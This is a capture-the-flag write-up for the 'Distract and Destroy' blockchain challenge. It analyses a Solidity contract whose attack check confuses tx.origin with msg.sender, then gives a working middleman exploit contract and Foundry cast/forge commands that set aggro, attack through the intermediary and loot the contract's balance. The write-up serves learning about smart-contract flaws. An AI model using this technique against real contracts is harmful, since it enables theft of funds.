 # Web CTF Challenge: Distract and Destroy

## Challenge Description
After defeating her first monster, Alex stood frozen, staring up at another massive, hulking creature that loomed over her. She knew that this was a fight she couldn't win on her own. She turned to her guildmates, trying to come up with a plan. "We need to distract it," Alex said. "If we can get it off balance, we might be able to take it down." Her guildmates nodded, their eyes narrowed in determination. They quickly came up with a plan to lure the monster away from their position, using a combination of noise and movement to distract it. As they put their plan into action, Alex drew her sword and waited for her chance.

This time we are provided with a **blockchain challenge**.

## Setup
Reading the instructions from the site we are given:
- A private key
- The addresses of the contracts 
- Our address
- The RPC URL to which we will make the calls

## Contract Analysis

### Setup Contract
Let's take a look first at the smart contracts. The setup contract deploys our Creature contract and has an `isSolved` function:

```solidity
function isSolved() public view returns (bool) {
    return address(TARGET).balance == 0;
}
```

This function tells us that in order to win the challenge we should **empty the Creature contract**.

### Creature Contract
Let's dive into the creature contract.

#### Loot Function
We have to call the `loot` function in order to empty the contract:

```solidity
function loot() external {
    require(lifePoints == 0, "Creature is still alive!");
    payable(msg.sender).transfer(address(this).balance);
}
```

However, we can only loot when the creature has **0 life points**.

#### Attack Function
To attack the creature we can call the function:

```solidity
function attack(uint256 _damage) external {
    if (aggro == address(0)) {
        aggro = msg.sender;
    }

    if (_isOffBalance() && aggro != msg.sender) {
        lifePoints -= _damage;
    } else {
        lifePoints -= 0;
    }
}
```

Which calls:

```solidity
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

## Vulnerability Analysis

At the first call of the `attack` function, the `aggro` is set to the message sender. Then, the `_isOffBalance()` checks if the `tx.origin` is different from the `msg.sender`. If it does **AND** the `aggro` is different from the message sender, then the damage is done.

### Key Insight
The key point here is that:
- `tx.origin` is the address of the one who initiated the transaction
- `msg.sender` returns the address of the one who sent the transaction

If we write a **middleman contract** which we can call to call the function `attack` in the Creature contract, the `tx.origin` and `msg.sender` will be different.

However, we should first attack with our private key so the `aggro` will be permanently set to our address, because otherwise it would be set to our contract address and we could not attack.

## Exploitation

### Middleman Contract
The middleman contract would look something like:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Middleman {
    address public target = 0x9ADAFC44200a10b29583438397B6A81A969E48cc;

    function attack(uint256 _damage) external {
        (bool success, bytes memory result) = target.call(abi.encodeWithSignature("attack(uint256)", _damage));
        require(success, string(result));
    }
}
```

### Step-by-Step Solution

In order to do that we will use **Foundry's** tool `cast`.

#### Step 1: Set Aggro
First, we will set our address as the aggro:
```bash
cast send $ContractAddress "attack(uint256)" 1000 --private-key $PRIVATE_KEY --rpc-url http://$IP:$PORT/rpc
```

#### Step 2: Deploy Middleman Contract
Secondly, we will deploy our middleman contract:
```bash
forge create $PATH_TO_MIDDLEMAN_CONTRACT --rpc-url $RPC_URL --private-key $PRIVATE_KEY --broadcast
```

And the contract is deployed successfully:

![Contract deployment success](image.png)

#### Step 3: Attack Through Middleman
Now, we only need to call the function in our newly deployed contract so it will attack the target contract:
```bash
cast send $MIDDLEMAN_CONTRACT_ADDRESS "attack(uint256)" 1000 --rpc-url http://$IP:$PORT/rpc --private-key $PRIVATE_KEY
```

#### Step 4: Loot the Contract
After that, we can loot the contract:
```bash
cast send $TARGET_CONTRACT_ADDRESS "loot()()" --private-key $PRIVATE_KEY --rpc-url http://$IP:$PORT/rpc
```

Now, the target contract is empty and the flag is revealed back in browser.

---

**Vulnerability Type:** `tx.origin` vs `msg.sender` confusion  
**Key Technique:** Middleman contract to manipulate call context  
**Tools Used:** Foundry (cast, forge)  